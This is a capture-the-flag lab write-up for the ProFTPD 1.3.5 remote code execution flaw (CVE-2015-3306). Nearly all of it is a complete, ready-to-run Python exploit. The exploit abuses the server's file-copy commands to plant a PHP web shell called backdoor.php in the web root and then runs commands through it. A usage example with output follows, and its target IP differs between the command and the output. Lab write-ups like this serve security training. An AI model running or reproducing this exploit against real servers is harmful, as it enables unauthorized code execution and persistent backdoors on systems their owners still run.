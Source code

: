 #+title: ProFTPD 1.3.5 Remote Code Execution (CVE-2015-3306)
#+author: gabriel
* intro
ProFTPD 1.3.5 Remote Code Execution (CVE-2015-3306)
10 Points
ProFTPD is a widely used open-source FTP server for file transfer.

This laboratory contains the CVE-2015-3306 vulnerability found in ProFTPD version 1.3.5. This vulnerability allows attackers to perform remote code execution attacks, enabling the execution of arbitrary commands on the server and potentially taking control of the system.

What is the secret in the /secret.txt file?

* exploit
#+begin_src python
#!/usr/bin/env python
# CVE-2015-3306 exploit by t0kx
# https://github.com/t0kx/exploit-CVE-2015-3306

import re
import socket
import requests
import argparse

class Exploit:
    def __init__(self, host, port, path):
        self.__sock = None
        self.__host = host
        self.__port = port
        self.__path = path

    def __connect(self):
        self.__sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.__sock.connect((self.__host, self.__port))
        self.__sock.recv(1024)

    def __exploit(self):
        payload = "<?php echo passthru($_GET['cmd']); ?>"
        self.__sock.send(b"site cpfr /proc/self/cmdline\n")
        self.__sock.recv(1024)
        self.__sock.send(("site cpto /tmp/." + payload + "\n").encode("utf-8"))
        self.__sock.recv(1024)
        self.__sock.send(("site cpfr /tmp/." + payload + "\n").encode("utf-8"))
        self.__sock.recv(1024)
        self.__sock.send(("site cpto "+ self.__path +"/backdoor.php\n").encode("utf-8"))

        if "Copy successful" in str(self.__sock.recv(1024)):
            print("[+] Target exploited, acessing shell at http://" + self.__host + "/backdoor.php")
            print("[+] Running whoami: " + self.__trigger())
            print("[+] Done")
        else:
            print("[!] Failed")

    def __trigger(self):
        data = requests.get("http://" + self.__host + "/backdoor.php?cmd=whoami")
        match = re.search('cpto /tmp/.([^"]+)', data.text)
        return match.group(0)[11::].replace("\n", "")

    def run(self):
        self.__connect()
        self.__exploit()

def main(args):
    print("[+] CVE-2015-3306 exploit by t0kx")
    print("[+] Exploiting " + args.host + ":" + args.port)

    exploit = Exploit(args.host, int(args.port), args.path)
    exploit.run()

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument('--host', required=True)
    parser.add_argument('--port', required=True)
    parser.add_argument('--path', required=True)
    args = parser.parse_args()

    main(args)
#+end_src

*usage* ->
#+begin_src sh
python3 exploit.py --host 172.20.1.144 --port 21 --path /var/www/html

[+] CVE-2015-3306 exploit by t0kx
[+] Exploiting 172.20.1.154:21
[+] Target exploited, acessing shell at http://172.20.1.154/backdoor.php
[+] Running whoami: www-data
[+] Done
#+end_src
